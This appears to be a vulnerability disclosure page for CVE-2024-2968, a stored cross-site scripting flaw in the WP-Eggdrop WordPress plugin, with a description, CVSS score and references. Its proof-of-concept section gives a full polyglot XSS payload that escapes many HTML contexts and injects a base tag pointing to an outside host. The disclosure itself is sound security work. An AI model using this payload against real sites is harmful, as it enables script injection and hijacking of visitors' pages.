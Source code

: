 ```yaml
---
layout: page
title: CVE-2024-2968
subtitle: WP-Eggdrop <= 0.1 - Authenticated (Admin+) Stored Cross-Site Scripting
---
```

## Description
The WP-Eggdrop plugin for WordPress is vulnerable to Stored Cross-Site Scripting via admin settings in all versions up to, and including, 0.1 due to insufficient input sanitization and output escaping. This makes it possible for authenticated attackers, with administrator-level permissions and above, to inject arbitrary web scripts in pages that will execute whenever a user accesses an injected page. This only affects multi-site installations and installations where unfiltered_html has been disabled.

## Severity
 4.4 (Medium) - CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:C/C:L/I:L/A:N

## Affected Version
    <= 0.1

## PoC :
```
- Go to Settings/WP-Eggdrop Settings
- Input payload JavaScript://%0A/*?'/*\\'/*"/*\\"/*`/*\\`/*')/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(confirm)(1331+6)}//><Base/Href=//ener1-s3c.github.io/\\76-->
- Save & payload executed.
```

## Refrence
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wp-eggdrop/wp-eggdrop-01-authenticated-admin-stored-cross-site-scripting
- https://plugins.trac.wordpress.org/browser/wp-eggdrop/trunk/wp-eggdrop.php#L215
- https://www.cve.org/CVERecord?id=CVE-2024-2968
- https://nvd.nist.gov/vuln/detail/CVE-2024-2968


